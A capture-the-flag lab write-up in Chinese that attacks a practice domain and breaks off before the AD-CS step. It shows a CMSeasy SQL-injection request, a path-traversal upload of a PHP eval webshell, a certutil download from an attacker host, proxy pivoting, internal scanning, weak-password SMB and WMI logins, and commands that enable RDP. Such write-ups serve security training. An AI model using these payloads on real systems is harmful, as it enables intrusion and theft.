# cyberstrikelab-Lab9靶机 WP-先知社区

> **来源**: https://xz.aliyun.com/news/18042  
> **文章ID**: 18042

---

## 1. 基本信息

**考点**

* CMSeasy sql注入、7.7.5版本后台任意文件上传
* SMB弱口令
* AD-CS

**靶机基本信息：**

```
域名：cyberstrikelab.com
10.6.6.10  172.5.33.6   WIN-784BAKDI0AC  入口机 CMSeasy sql注入、后台任意文件上传
10.6.6.88   cyberweb    smb弱口令 administrator  qwe123!@#
10.6.6.55   DC          AD-CS   
```

## 2. flag01

### 2.1. 信息收集

```
┌──(root㉿kali)-[~]
└─# nmap -sT 172.5.33.6
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 12:59 EDT
Nmap scan report for 172-5-33-6.lightspeed.miamfl.sbcglobal.net (172.5.33.6)
Host is up (0.024s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 12.67 seconds
```

### 2.2. CMSEASY SQL注入获取管理员账号密码

[GitHub - MzzdToT/CmsEasysql: CmsEasy SQL注入漏洞批量扫描工具](https://github.com/MzzdToT/CmsEasy_sql)  
github上搜索到一个sql注入，可以直接泄露管理员账号与密码

```
┌──(root㉿kali)-[~]
└─# curl 'http://172.5.33.6/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5'
{"userid":"1","username":"admin","password":"a66abb5684c45962d887564f08346e8d","nickname":"\u7ba1\u7406\u5458","groupid":"2","checked":"1","qqlogin":"","alipaylogin":"","wechatlogin":"","avatar":"","userip":"","state":"0","qq":"1111","e_mail":"admin@qq.com","address":"admin","tel":"admin","question":"","answer":"","intro":"","point":"0","introducer":"0","regtime":"0","sex":"","isblock":"0","isdelete":"0","headimage":"\/html\/upload\/images\/201907\/15625455867367.png","integration":"0","couponidnum":"17:0:1","collect":"2,4,3,46,14,73","menoy":"100.07","adddatetime":"2021-09-01 00:00:00","notifiid":"","templatelang":"cn","adminlang":"cn","buyarchive":"","adminlangdomain":"","templatelangdomain":"","expired_time":"0"}  
```

  
md5解密  


### 2.3. CmsEeay7\_7\_5 后台任意文件上传

[CmsEasy7.7.520211012存在任意文件写入和任意文件读取漏洞  jdr](https://jdr2021.github.io/2021/10/14/CmsEasy_7.7.5_20211012%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E5%92%8C%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/)  
查看网站首页源码可以发现版本正好对上  
  
用上面的账号密码 `admin:admin123456`  
登录后台，拿到cookie就可以进行任意文件上传了

```
POST /index.php?case=template&act=save&admin_dir=admin&site=default HTTP/1.1
Host: 172.5.33.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: http://172.5.33.6
Sec-Gpc: 1
Connection: keep-alive
Referer: http://172.5.33.6/index.php?case=template&act=save&admin_dir=admin&site=default
Cookie: PHPSESSID=budvv591qp9v5g56cn1jh2vsn7; loginfalse=0; lockingfalseadmin=4; lockingfalsecmseasy=3; lockingfalseadmin1231231=1; login_username=admin; login_password=9776624e56cfa87e5d04672056ffeac9
Upgrade-Insecure-Requests: 1

sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php echo 123;eval($_POST['a']);phpinfo();?>
```

  


### 2.4. webshell

蚁剑连接，  




## 3. flag02

### 3.1. 搭建内网代理

上面发现这台入口机有个10网段的网卡，我们利用 [stowaway](https://github.com/ph4ntonn/Stowaway) 搭建代理

这里推荐用**certutil** 命令进行下载stowaway客户端，我蚁剑上传的不完整（我一直卡这里，就是因为老是上传不完整，又不给我提示，后面看到几十kb的stowaway才发现是蚁剑上传的问题）

```
#下载stowaway客户端
certutil -f -split -urlcache http://172.16.233.2/windows_x64_agent.exe
```

```
PS C:\Users\Administrator\Documents\tools\stowaway> .\windows_x64_admin.exe -l 1144
[*] Starting admin node on port 1144

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.2  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 172.5.33.6:54401 is set up successfully! Node id is 0
(admin) >> use 0
(node 0) >> socks 1145
[*] Trying to listen on 0.0.0.0:1145......
[*] Waiting for agent's response......
[*] Socks start successfully!
```



### 3.2. 内网扫描

这里建议直接把fscan传到靶机上去，别在外面扫，走代理扫内网太慢了

直接在stowaway里面开一个shell执行fscan即可  
  
下面是扫描的结果

```
#切换shell
(node 0) >> shell
[*] Waiting for response.....
Microsoft Windows [�汾 10.0.14393]
(c) 2016 Microsoft Corporation����������Ȩ����
#切换编码
C:\phpstudy_pro\WWW>chcp 65001
chcp 65001
Active code page: 65001
C:\phpstudy_pro\WWW>fscan.exe -h 10.6.6.10/24
fscan.exe -h 10.6.6.10/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _`' |/ __| |/ /    │
│ / /_\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-05-20 16:20:35] [INFO] 暴力破解线程数: 1
[2025-05-20 16:20:36] [INFO] 开始信息扫描
[2025-05-20 16:20:36] [INFO] CIDR范围: 10.6.6.0-10.6.6.255
[2025-05-20 16:20:36] [INFO] 生成IP范围: 10.6.6.0.%!d(string=10.6.6.255) - %!s(MISSING).%!d(MISSING)
[2025-05-20 16:20:36] [INFO] 解析CIDR 10.6.6.10/24 -> IP范围 10.6.6.0-10.6.6.255
[2025-05-20 16:20:36] [INFO] 最终有效主机数量: 256
[2025-05-20 16:20:36] [INFO] 开始主机扫描
[2025-05-20 16:20:36] [SUCCESS] 目标 10.6.6.10       存活 (ICMP)
[2025-05-20 16:20:36] [SUCCESS] 目标 10.6.6.55       存活 (ICMP)
[2025-05-20 16:20:37] [SUCCESS] 目标 10.6.6.88       存活 (ICMP)
[2025-05-20 16:20:39] [INFO] 存活主机数量: 3
[2025-05-20 16:20:39] [INFO] 有效端口数量: 233
[2025-05-20 16:20:39] [SUCCESS] 端口开放 10.6.6.55:135
[2025-05-20 16:20:39] [SUCCESS] 端口开放 10.6.6.10:135
[2025-05-20 16:20:39] [SUCCESS] 端口开放 10.6.6.55:88
[2025-05-20 16:20:39] [SUCCESS] 端口开放 10.6.6.55:80
[2025-05-20 16:20:39] [SUCCESS] 端口开放 10.6.6.10:80
[2025-05-20 16:20:39] [SUCCESS] 端口开放 10.6.6.88:135
[2025-05-20 16:20:40] [SUCCESS] 端口开放 10.6.6.10:445
[2025-05-20 16:20:40] [SUCCESS] 端口开放 10.6.6.55:389
[2025-05-20 16:20:40] [SUCCESS] 端口开放 10.6.6.55:139
[2025-05-20 16:20:40] [SUCCESS] 端口开放 10.6.6.88:139
[2025-05-20 16:20:40] [SUCCESS] 端口开放 10.6.6.10:139
[2025-05-20 16:20:40] [SUCCESS] 端口开放 10.6.6.88:445
[2025-05-20 16:20:40] [SUCCESS] 端口开放 10.6.6.55:445
[2025-05-20 16:20:43] [SUCCESS] 端口开放 10.6.6.10:3306
[2025-05-20 16:20:43] [SUCCESS] 服务识别 10.6.6.10:3306 => [mysql] 产品:MySQL 信息:unauthorized Banner:[H.j Host 'WIN-784BAKDI0AC' is not allowed to connect to this MySQL server]
[2025-05-20 16:20:44] [SUCCESS] 服务识别 10.6.6.55:88 =>
[2025-05-20 16:20:44] [SUCCESS] 服务识别 10.6.6.10:80 => [http]
[2025-05-20 16:20:44] [SUCCESS] 服务识别 10.6.6.55:80 => [http]
[2025-05-20 16:20:45] [SUCCESS] 服务识别 10.6.6.10:445 =>
[2025-05-20 16:20:45] [SUCCESS] 服务识别 10.6.6.55:389 => [ldap] 产品:Microsoft Windows Active Directory LDAP 系统:Windows 信息:Domain: cyberstrikelab.com, Site: Default-First-Site-Name
[2025-05-20 16:20:45] [SUCCESS] 服务识别 10.6.6.55:139 =>  Banner:[.]
[2025-05-20 16:20:45] [SUCCESS] 服务识别 10.6.6.88:139 =>  Banner:[.]
[2025-05-20 16:20:45] [SUCCESS] 服务识别 10.6.6.10:139 =>  Banner:[.]
[2025-05-20 16:20:45] [SUCCESS] 服务识别 10.6.6.88:445 =>
[2025-05-20 16:20:45] [SUCCESS] 服务识别 10.6.6.55:445 =>
[2025-05-20 16:21:44] [SUCCESS] 服务识别 10.6.6.55:135 =>
[2025-05-20 16:21:44] [SUCCESS] 服务识别 10.6.6.10:135 =>
[2025-05-20 16:21:44] [SUCCESS] 服务识别 10.6.6.88:135 =>
[2025-05-20 16:21:44] [INFO] 存活端口数量: 14
[2025-05-20 16:21:44] [INFO] 开始漏洞扫描
[2025-05-20 16:21:45] [INFO] 加载的插件: findnet, ldap, ms17010, mysql, netbios, smb, smb2, smbghost, webpoc, webtitle
[2025-05-20 16:21:45] [SUCCESS] NetInfo 扫描结果
目标主机: 10.6.6.10
主机名: WIN-784BAKDI0AC
发现的网络接口:
   IPv4地址:
      └─ 172.5.33.6
      └─ 10.6.6.10
[2025-05-20 16:21:45] [SUCCESS] 网站标题 http://10.6.6.10          状态码:200 长度:77272  标题:中文网页标题
[2025-05-20 16:21:46] [SUCCESS] 网站标题 http://10.6.6.55          状态码:200 长度:703    标题:IIS Windows Server
[2025-05-20 16:21:46] [SUCCESS] NetInfo 扫描结果
目标主机: 10.6.6.55
主机名: DC
发现的网络接口:
   IPv4地址:
      └─ 10.6.6.55
[2025-05-20 16:21:46] [SUCCESS] NetInfo 扫描结果
目标主机: 10.6.6.88
主机名: cyberweb
发现的网络接口:
   IPv4地址:
      └─ 10.6.6.88
[2025-05-20 16:21:46] [SUCCESS] 目标: http://10.6.6.55:80
  漏洞类型: poc-yaml-active-directory-certsrv-detect
  漏洞名称:
  详细信息:
        author:AgeloVito
        links:https://www.cnblogs.com/EasonJim/p/6859345.html
[2025-05-20 16:21:46] [INFO] 系统信息 10.6.6.55 [Windows Server 2016 Standard 14393]
[2025-05-20 16:21:46] [INFO] 系统信息 10.6.6.88 [Windows Server 2016 Standard 14393]
[2025-05-20 16:21:47] [SUCCESS] NetBios 10.6.6.88       cyberweb.cyberstrikelab.com         Windows Server 2016 Standard 14393
[2025-05-20 16:22:33] [INFO] SMB2共享信息 10.6.6.88:445 admin Pass:123456 共享:[ADMIN$ C$ IPC$ smb]
[2025-05-20 16:22:59] [SUCCESS] SMB认证成功 10.6.6.88:445 administrator:qwe123!@#
```

比较重要的内容就是

```
10.6.6.88   cyberweb    smb弱口令 administrator  qwe123!@#
10.6.6.55   DC          AD-CS  
```

那这个思路就很明确了， 首先拿一个域内用户，或者机器用户，然后打AD-CS拿下域控就行。   
bloodhound都不用上了

### 3.3. SMB弱口令

先检测一波。发现是本地管理员，没事问题不大。拿不到域用户，提权到系统用户一样的，管理员很好提权到system

```
proxychains -q nxc smb 10.6.6.88 -u administrator -p 'qwe123!@#' --local-auth
proxychains -q nxc smb 10.6.6.88 -u administrator -p 'qwe123!@#'
```



SMBEXEC连接上去看看权限（用WMI也可以）

```
proxychains -q impacket-wmiexec administrator:qwe123\!@#@10.6.6.88 -codec gbk
```



又看到有 `SeImpersonatePrivilege` 这个老演员了。直接用SMBCLient传 Sweetpotato提权即可。

### 3.4. RDP连接

我们之前fscan扫描的时候发现3389是没有开放的，因为我们是管理员用户，所以我们可以把他打开，然后rdp上去，方便操作

```
C:\>reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
操作成功完成。

C:\>netsh advfirewall firewall set rule group="remote desktop" new enable=yes

没有与指定标准相匹配的规则。


C:\>sc config TermService start= auto
[SC] ChangeServiceConfig 成功

C:\>sc start TermService
[SC] StartService 失败 1056:

服务的实例已在运行中。


C:\>netstat -ano | findstr :3389
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       796
  TCP    10.6.6.88:3389         10.6.6.10:54750        CLOSE_WAIT      796
  TCP    [::]:3389              [::]:0                 LISTENING       796
  UDP    0.0.0.0:3389           *:*                                    796
  UDP    [::]:3389              *:*                                    796
```

连接  
